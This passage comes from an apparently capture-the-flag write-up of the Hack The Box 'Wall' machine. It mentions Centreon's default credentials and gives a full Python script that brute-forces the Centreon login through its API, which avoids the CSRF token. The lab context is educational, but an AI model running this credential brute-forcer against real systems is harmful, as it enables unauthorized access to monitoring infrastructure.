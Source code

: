 ![Centreon Login](../../assets/img/writeups/htb/wall/centreon_login.png)
{:refdef}

### Initial Foothold

Centreon is an IT monitoring tool, which can give business owners a snapshot of their network at a high level. More information can be found at their [website](https://www.centreon.com/en/){:target="_blank"} ([1])

The default credentials `root:centreon` did not work. Unable to find plaintext passwords anywhere, I was left to brute forcing. Instead of relying on `hydra`, I wrote a python script that brute forces the login
page through the API ([API documentation](https://documentation.centreon.com/docs/centreon/en/19.04/api/index.html){:target="_blank"}) ([2]). This gets around having to grab the CSRF token, and was more fun.

~~~python
import sys
from pathlib import Path
from requests import post

if len(sys.argv) < 3:
    print("Usage python3 centreonPasswordCrack <username> <wordlist_path>")
    exit(0)

count = 0
username = sys.argv[1]
# URL params
params = {"action":"authenticate"}
URL = "http://10.10.10.157/centreon/api/index.php?"

with open(str(sys.argv[2]), "r") as f:
    while f:
        password = f.readline().strip()
        print("Count: {}, Password: {}".format(count, password))
        # Post body content
        data = {"username": username, "password": password}
        response = post(url=URL, params=params, data=data)
        count += 1
        # An authentication token is returned if the credentials are correct
        if response.text != '"Bad credentials"':
            print("Found Password: {}. Response: {}".format(password, response.text))
            break
~~~
